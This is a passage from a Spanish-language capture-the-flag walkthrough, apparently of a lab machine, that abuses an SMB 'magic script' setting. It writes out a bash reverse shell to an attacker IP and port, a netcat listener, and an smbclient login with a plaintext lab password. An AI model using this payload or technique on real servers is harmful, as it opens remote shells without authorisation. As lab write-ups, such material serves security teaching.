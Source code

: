 Veremos que efectivamente estaremos dentro y si listamos veremos lo siguiente:

```
.                                   D        0  Tue Mar  2 18:16:15 2021
  ..                                  D        0  Tue Mar  2 17:00:47 2021
  smbshare                            D        0  Tue Mar  2 17:16:13 2021
  crossroads.png                      N  1583196  Tue Mar  2 17:34:03 2021
  beroot                              N    16664  Tue Mar  2 18:02:41 2021
  user.txt                            N       32  Tue Mar  2 18:15:18 2021

                4000320 blocks of size 1024. 3759668 blocks available
```

Vemos que hay un directorio llamado `smbshare` y si entramos dentro veremos un archivo llamado `smb.conf` esto es bastante interesante ya que podremos ver la configuracion del servidor `SMB` y eso es una vulnerabilidad.

Si leemos dicho archivo veremos lo siguiente:

```
.............................<RESTO_DE_CODIGO>....................................

[smbshare]

path = /home/albert/smbshare
valid users = albert
browsable = yes
writable = yes
read only = no
magic script = smbscript.sh
guest ok = no
```

Vemos que hay establecido un `magic script` esto lo que hace es que cuando alguien se conecta a un servidor `SMB` este mismo se ejecuta de forma automatica, por lo que podremos insertar codigo malicioso creado el script con dicho nombre y conectarnos por `SMB` de nuevo para que lo ejecute el servidor.

> smbscript.sh

```shell
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Teniendo el archivo lo que vamos hacer es ponernos a la escucha ya directamente.

```shell
nc -lvnp <PORT>
```

Ahora vamos a conectarnos con el otro servidor compartido llamado `smbshare`.

```shell
smbclient //<IP>/smbshare -U albert%bradley1
```
